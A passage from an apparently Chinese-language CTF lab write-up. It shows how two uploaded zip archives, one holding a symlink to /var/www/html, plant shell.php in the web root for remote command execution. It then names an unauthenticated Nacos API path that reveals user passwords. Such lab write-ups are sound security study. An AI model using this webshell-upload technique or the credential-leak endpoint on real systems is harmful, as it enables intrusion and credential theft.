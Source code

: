 > `zip --symlinks`，是在 zip 压缩文件中，包含符号链接本身，而不是它们指向的实际文件或目录，也就是说当解压缩这个 zip 文件，将得到符号链接，而不是它们指向的实际文件。

接着构造第二个压缩包 2.zip

创建一个 link 目录 (因为上一个压缩包里边目录就是 link)，在 link 目录下写一个 shell.php 文件，文件中写入木马文件，这里先写入 phpinfo() 进行测试

```plain
┌──(root㉿kali)-[~/桌面]
└─# rm link
┌──(root㉿kali)-[~/桌面]
└─# mkdir link
┌──(root㉿kali)-[~/桌面]
└─# cd link 
┌──(root㉿kali)-[~/桌面/link]
└─# echo "<?php phpinfo();" > shell.php
┌──(root㉿kali)-[~/桌面/link]
└─# cd ../
┌──(root㉿kali)-[~/桌面]
└─# zip -r 2.zip link
```

我们将 1.zip 和 2.zip 依次 上传，压缩包会被解压到 tmp 目录下，但是当我们上传第二个压缩包时会覆盖上一个 link 目录，但是 link 目录软链接指向`/var/www/html`解压的时候会把`shell.php`放在`/var/www/html`下，此时我们就达到了 getsehll 的目的。

接着直接访问根目录下的 shell.php，即可直接通过 system 命令实现 RCE

- - -

## Nacos 漏洞

**一、前置知识**

**1.1 Spring Cloud Gateway**

Spring Cloud Gateway 是一个基于 Spring Framework 的轻量级 API 网关服务，它提供了一种简单而灵活的方式来构建和管理微服务架构中的路由、负载均衡、安全性和监控等功能。简单理解为一个具有丰富功能的微服务网关，它可以拦截客户端的请求，然后根据`predicates`（断言）来为该请求分配合适的后端应用。

例如当用户请求`http://192.168.1.1:80/app`时，网关可以配置将其转发到 APP 应用服务器`http://192.168.2.2:8080/app`上，又或者使用`Filter`拦截器，为请求增加某些内容或者为服务器响应增加某些内容

**1.2 `nacos`**

`Nacos`可以理解为一个统一管理的配置注册中心，配置了`nacos`后，项目中的配置文件便可以通过`Nacos`来动态修改。应用通过注册到`` `Nacos ``中，然后绑定组和`dataID`的形式，来绑定`Nacos`上创建的动态配置文件，当`Nacos`上所绑定的配置文件发布了新版时，应用将从`Nacos`中自动同步新的配置，大大增加了灵活性

**二、Nacos 漏洞利用**

**1、获取已有的用户列表的账号和密码**

在路径后面加上`/nacos/v1/auth/users?pageNo=1&pageSize=9`可以获取到已有的用户名和密码

> 本次复现的漏洞环境是 ctfshow 中的，所以路径可能有些不一样

[![](assets/1700442594-6fb89733344fc854812cd3e72226f487.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118155257-7d2472c0-85e7-1.png)
